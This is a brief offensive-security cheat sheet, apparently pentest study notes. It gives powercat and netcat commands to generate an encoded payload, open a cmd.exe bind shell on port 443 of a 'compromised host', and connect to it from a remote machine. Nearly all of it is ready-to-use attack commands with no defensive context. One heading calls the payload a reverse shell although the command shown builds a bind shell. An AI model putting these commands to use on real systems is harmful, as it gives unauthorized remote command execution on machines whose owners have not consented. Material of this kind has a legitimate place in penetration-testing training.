 # Generating an encoded reverse shell payload
```ps
powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1
```

# 1) Spawn a bind shell on compromised host
```sh
powercat -l -p 443 -e cmd.exe
```

# 2) connect to bind shell on remote host
```sh
RHOST=10.11.0.4
RPORT=443
nc -nv $RHOST $RPORT
```

